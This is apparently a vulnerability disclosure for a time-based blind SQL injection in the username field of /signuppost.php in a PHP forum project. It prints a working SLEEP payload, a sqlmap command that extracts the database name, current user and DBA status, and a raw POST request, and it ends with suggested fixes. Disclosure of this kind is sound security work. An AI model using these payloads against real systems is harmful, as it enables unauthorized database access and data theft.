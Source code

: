 # CVE
CVE-poc
### Issue Type

SQL Injection

## Root Cause

A SQL injection vulnerability has been identified in the /signuppost.php file in the “Technical Forum Using PHP Source Code” project. The vulnerability stems from the fact that an attacker can inject malicious code via the login username parameter and use that parameter directly in a SQL query without validation. This allows an attacker to spoof input values to manipulate SQL queries and perform unauthorized actions.

### Impact

An attacker can exploit this SQL injection vulnerability to gain unauthorized access to a database, disclose sensitive data, tamper with data, completely control the system, or even disrupt services, posing a serious threat to system security and business continuity.

## Vulnerability Details and POC

Vulnerability Name: Username Parameter

```
Payload
Parameter: Username (POST)
Type: Time Blind Injection Time Blind Injection
Title: Time Blind Injection Time Blind Injection
Payload: username=admin' AND (SELECT 9335 FROM (SELECT(SLEEP(5)))NwOL) AND 'SGvn' = 'SGvn'
Screenshot of the specific information obtained when testing and running the sqlmap utility
```
![image](https://github.com/user-attachments/assets/cbaf25e7-b4e1-41f7-9475-f14564b2810c)
```
//sqlmap
python sqlmap.py -r url.txt --level 1 --risk 1 --current-db --current-user --is-dba
```
```
poc
POST /signuppost.php HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Origin: http://127.0.0.1:8083
Connection: keep-alive
Referer: http://127.0.0.1:8083/signup.php
Cookie: PHPSESSID=ln2b6eftt76aon56uvppiurao3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

name=123&gender=male&email=13849221%40qq.com&contact=123123&username=admii&password=admin%40123&password_check=admin%40123&submit=SignUp
```
### Suggested fixes

Using preprocessing statements and parameter binding
Preprocessing statements prevent SQL injection by separating the SQL code from the user input data. When using preprocessing statements, user-entered values are treated as pure data and are not interpreted as SQL code.

Input Validation and Filtering
Strictly validate and filter user input data to ensure that it conforms to the expected format.

Minimize Database User Privileges
Ensure that accounts used to connect to the database have the minimum necessary privileges. Avoid using accounts with higher privileges (e.g. “root” or “admin”) for day-to-day operations.

Conduct regular security audits
Conduct regular code and system security audits to identify and fix potential security vulnerabilities in a timely manner.

By following these recommendations, you can greatly improve the security of your applications and reduce the risks associated with SQL injection vulnerabilities.
